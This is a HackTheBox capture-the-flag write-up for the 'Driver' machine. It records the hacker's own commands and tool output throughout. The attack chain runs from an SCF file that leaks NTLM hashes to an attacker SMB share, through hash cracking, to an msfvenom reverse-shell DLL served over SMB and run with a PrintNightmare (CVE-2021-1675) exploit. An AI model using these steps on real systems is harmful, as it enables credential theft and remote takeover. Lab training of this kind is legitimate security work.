 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/13531">MrR3boot</a></p>

[![f4T1H21](https://www.hackthebox.eu/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H21>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-24T19:06:51
|_  start_date: 2022-01-24T18:23:54
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

## `445/tcp` SMB service
We can neither log in with dumb credentials nor without credentials.
So there's nothing to do except bruteforce and this is not our first scope though.

## `135/tcp` MSRPC service
### Impacket's `rpcdump` result
We see the box can be vulnerable to PrintNightmare (CVE-2021-1675)

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-rpcdump @10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## `80/tcp` HTTP service
`driver.htb` asks us for an admin password at first and accepts `admin:admin`.

Firmware Update button forwards us to `/fw_up.php`, and we see a file upload section there.

![firmwareUpdates](img/firmwareUpdates.png)

At that point, the initial thought of mine was uploading a php reverse shell as you can expect. But no uploads directory existence, so it didn't make sense.

At this point, I learnt a new attack vector for SMB! Grabbing user's password hashes using `scf` files.

# Foothold: Grab user authentication hash using `smb` path in `scf` files

Let's have a look at what an `scf` file actually is.
>SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

This files are also able to connect an smb share if any given.<br>
The blog post below explains the metodology of abusing this behaviour step by step.

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

- Start an smb server (or a pre-configured relay, such as `responder`).
- Create an scf file.
- Upload it.
- File gets executed as soon as a user browses in the directory of the file. (Look at the squared area in above screenshot)
- Get your NTLM user hash from your server.

By the way, there's a feature in windows (in linux too) that puts files starts with an '@' symbol before other files. And works for folders too.

#### @f4T1H.scf
```
[Shell]
Command=2
IconFile=\\10.10.14.62\doesnot\exists
[Taskbar]
Command=ToggleDesktop
```

#### `responder -w --lm -v -I tun0`

After uploading the file, we receive an authentication attempt in our `responder`.

![responder](img/responder.png)

### John The Ripper
```
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# john -w=/usr/share/wordlists/rockyou.txt ntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-01-25 07:45) 25.00g/s 793600p/s 793600c/s 793600C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

# Privilege Escalation: PrintNightmare (CVE-2021-1675)
First things first, generate a windows reverse shell payload using `msfvenom`.

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# msfvenom -ax64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.42 LPORT=2121 -f dll -o revshell.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: revshell.dll
```

Second things second, clone impacket implementation of PrintNightmare from: https://github.com/cube0x0/CVE-2021-1675

Third things third, start an smb server of your choice (mine is impacket :).

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-smbserver -ip 10.10.16.42 f4T1H .             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Fourth thing fourth, run the exploit with the proper positional arguments.
```console
┌──(root💀f4T1H)-[~/hackthebox/driver/CVE-2021-1675]
└─# python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.42\f4T1H\revshell.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.42\f4T1H\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```

![root](img/root.png)

---

# Resources

|__`SMB SCF file attacks`__|__https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/__|
|:-|:-|
|__`CVE-2021-1675 PrintNightmare`__|__https://github.com/cube0x0/CVE-2021-1675__|

<br>

___─ Written by f4T1H ─___
